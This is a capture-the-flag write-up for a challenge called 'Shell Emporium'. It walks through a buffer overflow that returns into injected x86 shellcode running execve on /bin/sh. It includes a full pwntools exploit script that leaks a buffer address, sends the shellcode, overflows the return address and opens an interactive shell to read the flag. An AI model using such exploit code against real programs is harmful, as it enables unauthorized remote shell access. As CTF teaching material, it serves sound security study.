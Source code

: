 # Write up for Shell Emporium

## Overview

For this challenge we are doing some shellcode. We have an application that gives us two text buffers to input seashell order details.

## Solution

### Flag 1

Our goal is to give ourselves a shell to control their server (as opposed to the physical shells they're selling).
To do so, we use the two inputs they give us. In the first one we put ```/bin/sh\x00``` and our shell code assembly to 
run the syscall ```execve``` on ```/bin/sh\x00``` to give ourselves a shell. We can do this, as the program gives us the address of the first buffer,
allowing us to refence where the string /bin/sh is. In the second buffer, we do a buffer overflow
to return to the address where the shellcode assembly is. For this, we can simply send the address of the shellcode assmebly
multiple times until it overflows to it. After we get our shell, we run ```ls``` to find the file ```flag.txt```, which we can 
then read with ```cat flag.txt```. Thereby giving us the flag! Note that https://x86.syscall.sh/ provides a good overview of x86 syscalls.

The code below implements this

```
#!/usr/bin/env python3

from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.update(arch="i386", os="linux")

p = remote("REDACTED", REDACTED)
# p = process("./shell_emporium")

print(p.recvuntil(b'IGNORE: '))
addr1 = p.recvline().split(b"\n")[0]
addr1 = int(addr1, 16)
print(p.recv())
p.sendline(b"2")
print(p.recv())


shellcode = asm(
f'''
mov eax, 0xB
mov ebx, {addr1}
xor ecx, ecx
xor edx, edx
int 0x80
''')

p.send(b"/bin/sh\x00")
p.sendline(shellcode)
print(p.recv())
addr2 = p32(addr1+8)
p.sendline(20*addr2)


p.interactive()
```
